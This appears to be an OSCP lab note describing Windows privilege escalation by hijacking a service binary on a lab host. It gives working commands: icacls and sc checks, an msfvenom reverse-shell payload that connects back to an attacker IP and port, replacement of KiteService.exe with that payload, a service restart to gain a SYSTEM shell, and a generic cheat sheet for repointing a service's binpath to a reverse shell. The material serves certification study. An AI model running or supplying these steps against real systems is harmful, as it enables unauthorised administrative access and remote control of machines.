 ![image](https://github.com/kullaisec/OSCP/assets/99985908/437b6de4-78d8-4751-b087-057516123b38)

![image](https://github.com/kullaisec/OSCP/assets/99985908/e5ade749-a000-4c75-845b-6c40cb82c4c5)

![image](https://github.com/kullaisec/OSCP/assets/99985908/9614e16e-09cb-427a-b1f8-522112e73602)

Confirmed the attack vector 

Now We need to check manually whether we have permissions to overwrite that binary  !!!
```powershell
PS C:\Users\chris\temp> icacls "C:\program files\Kite"
```
```powershell
PS C:\Users\chris\temp> icacls C:\program files\Kite\KiteService.exe
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/3ff026e3-8245-41c7-8df5-7bea6e98239b)

you can see we have Modify access !!

Now let's see the current status of the Service !!
```powershell
PS C:\Users\chris\temp> cmd.exe /c "sc qc KiteService"
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/9c4d2ac8-a8e4-47ac-82a3-82d0787ea32c)

you can see it is Running currently and It will start as Local System [ i.e., Administrative privileges !! ]

So If we replace the KiteService.exe binary with our reverse shell binary with the same name an restart the service then 
we will get the Administrative Shell !!
```powershell
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.203 LPORT=8989 -f exe > shell8989.exe
```
Uploaded into the target machine and renamed as ** KiteService.exe** name

and using the powershell we forcefully replaced the original file and stopeed and started the service !!
```powershell
PS> Copy-Item -Path "C:\Users\chris\temp\KiteService.exe" -Destination "C:\program files\Kite\KiteService.exe" -Force
```
```powershell
PS> net stop KiteService
```
```powershell
PS> net start KiteService
```
### Windows Binary PrivEscs:[Binary Hijacking]

![image](https://github.com/kullaisec/OSCP/assets/99985908/fd5358ad-18df-4c23-9ea9-ed4dec6fa512)


```powershell
#Identify service from winpeas
icalcs "path" #F means full permission, we need to check we have full access on folder
sc qc <servicename> #find binarypath variable
sc config <service> binpath= "\"C:\Users\Public\temp\rev.exe\"" #change the path to the reverseshell location
sc start <servicename>
```
